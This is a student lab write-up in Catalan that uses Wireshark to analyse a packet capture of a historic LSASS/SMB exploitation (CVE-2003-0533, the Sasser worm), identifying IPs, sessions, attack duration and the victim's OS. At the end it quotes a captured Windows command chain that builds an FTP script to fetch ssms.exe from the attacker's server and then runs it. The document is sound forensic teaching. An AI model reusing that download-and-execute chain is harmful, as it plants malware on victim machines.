









PRÀCTICA XARXES I
==================

En aquesta pràctica analitzarem el fitxer 1.pcap que trobaràs al Moodle, es correspon a la captura de paquets durant un atac informàtic en xarxa.

Per aquesta tasca usarem el programari open-source Wireshark que disposa d’eines que ens permetran filtrar el tràfic de la xarxa segons la informació que cerquem en cada moment.

*Nota: Aquesta pràctica no s’ha d’entregar, es revisarà durant les hores de classe.*

---

1. **Quina és l’adreça IP de l’atacant i de l’atacat? I les direccions MAC? A partir de les IPs obtingudes geolocalitza l’atacant i l’atacat.** Pots utilitzar el següent recurs online: https://www.geolocation.com/

Per assegurar-me de qui és realment l'atacant:

Statistics > Flow Graph



**Atacant:**

IP: 98.114.205.102

MAC: 00:08:e2:3b:56:01

Geolocalització:




**Atacat:**

IP: 192.150.11.111

MAC: 00:30:48:62:4e:4a

Geolocalització:



2. **Quines sessions TCP hi ha obertes entre les dos IPs? Indica’n els ports usats i el nombre de paquets enviats.**

Hi ha obertes les següents 5 sessions TCP:



Un total de 348 paquets.

3. **Quant temps dura l’atac?**

L'atac dura 16.219218 segons, com es pot veure a l'últim paquet:



4. **Quin és el sistema operatiu del sistema atacat? Pots consultar la relació entre la versió i el
nom comercial aquí: https://www.gaijin.at/en/infos/windows-version-numbers**

```
smb.native_os && ip.src == 192.150.11.111
```




5. **Aquest atac ha explotat una vulnerabilitat de l’Active Directory. Cerca paquets de
protocol DSSETUP per obtenir-ne informació i aconsegueix el codi CVE de la
vulnerabilitat i les seves característiques.** El CVE és una llista d'informació registrada sobre vulnerabilitats de seguretat conegudes.

**Quin protocol s’usà per explotar la vulnerabilitat esmentada?**



A partir de la informació "DsRoleUpgradeDownlevelServer" s'ha pogut trobar que s'intentava explotar la vulnerabilitat [CVE-2003-0533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0533).

```
Stack-based buffer overflow in certain Active Directory service functions in LSASRV.DLL of the Local Security Authority Subsystem Service (LSASS) in Microsoft Windows NT 4.0 SP6a, 2000 SP2 through SP4, XP SP1, Server 2003, NetMeeting, Windows 98, and Windows ME, allows remote attackers to execute arbitrary code via a packet that causes the DsRolerUpgradeDownlevelServer function to create long debug entries for the DCPROMO.LOG log file, as exploited by the Sasser worm.
```

S'usa el protocol SMB (Server Message Block).

**6. Quin port escoltava el servidor de l’atacant? Quin protocol s’usa en l’atac per descarregar un fitxer maliciós addicional al sistema atacat? Quin és aquest fitxer? En reconeixes el nom?** Analitza els fluxos TCP.

Fluxos TCP:

Statics > IPv4 Statics > Destinations and Ports




Pel paquet nº 46 podem veure el fitxer maliciós *ssms.exe* (SQL Server Management Studio).

L'atacant fa servir el protocol FTP per descarregar aquest fitxer.

El servidor de l'atacant està escoltant pel port 8884.

```
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe
```

